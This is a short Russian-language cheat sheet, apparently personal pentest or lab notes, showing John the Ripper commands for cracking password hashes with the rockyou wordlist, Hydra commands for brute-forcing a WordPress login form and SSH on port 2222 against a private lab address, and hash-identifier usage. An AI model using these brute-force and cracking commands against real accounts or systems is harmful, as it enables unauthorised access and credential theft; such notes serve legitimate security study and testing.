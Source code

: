 ## John the ripper
Имея hash пароля пытается подобрать верный пароль.
Пример:
``` 
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format=<hash format, напримире bcrypt> resultFile.txt
```
Пример:
``` 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
## Hydra
Пример брутфорса пародя внутри формы авторизации на wordpress/wp-login.php:
``` 
hydra -L <username> -p <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
``` 
hydra -l <username> -P <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Пример брутфорса пароля SSH на порту 2222:
``` 
hydra -l <username> -P <brutList.txt> ssh:10.10.1.2:2222
```
## Взлом Hash-а - hash-identifier
```
hash-identifier
HASH: <hash>
```